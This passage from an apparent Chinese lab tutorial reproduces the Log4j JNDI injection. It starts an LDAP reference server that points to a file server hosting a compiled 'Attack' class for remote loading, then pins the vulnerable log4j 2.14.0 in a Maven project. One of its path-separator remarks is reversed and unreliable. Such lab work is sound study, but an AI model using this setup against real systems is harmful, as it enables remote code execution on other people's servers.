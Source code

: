    

2. 上传[marshalsec](https://github.com/mbechler/marshalsec)到虚拟机。执行一下命令启动jndi服务：

   > `java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer "http://172.16.102.19/#Attack" 9991`  
   >
   > 172.16.102.19 指向文件服务器地址，Attack是编译后java攻击代码的类名称，触发jndi请求后会自动拼接请求 http://172.16.102.19/Attack.class 。
   >
   > 上面这个命令不能后台运行，断开链接后也就终止了，后台运行使用:
   >
   > `java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer "http://172.16.102.19/#Attack" 9991 > log.txt >&1 &`

## 第四步:本地触发

1. 创建一个maven项目。

2. 添加依赖 。

   >  在pom.xml中添加依赖：
   >
   > ```xml
   > <dependencies>
   >     <dependency>
   >         <groupId>org.apache.logging.log4j</groupId>
   >         <artifactId>log4j-api</artifactId>
   >         <version>2.14.0</version>
   >     </dependency>
   >     <dependency>
   >         <groupId>org.apache.logging.log4j</groupId>
   >         <artifactId>log4j-core</artifactId>
   >         <version>2.14.0</version>
   >     </dependency>
   > </dependencies>
   > ```

3. 配置log4j。 

   > 在src/main/resources目录下创建log4j2.xml 内容如下：
   >
   > ***注意window下路径是/,liunx下路径是\ 如果执行出现错误 请检查输出目录的/是否正确。***
   >
   > ```xml
   > <?xml version="1.0" encoding="UTF-8"?>
   > 
   > 
   > <Configuration status="WARN" monitorInterval="30">
   >     <Properties>
   >         
   >         <Property name="LOG_HOME">logs</Property>
   >         <property name="ERROR_LOG_FILE_NAME">logs\error</property>
   >         <property name="WARN_LOG_FILE_NAME">logs\warn</property>
   > 
   >         <property name="PATTERN">%d{yyyy-MM-dd HH:mm:ss.SSS} [%t-%L] %-5level %logger{36} - %msg%n</property>
   >     </Properties>
   > 
   >     <Appenders>
   >         
   >         <Console name="Console" target="SYSTEM_OUT">
   >             
   >             <ThresholdFilter level="trace" onMatch="ACCEPT"
   >                              onMismatch="DENY" />
   >             
   >             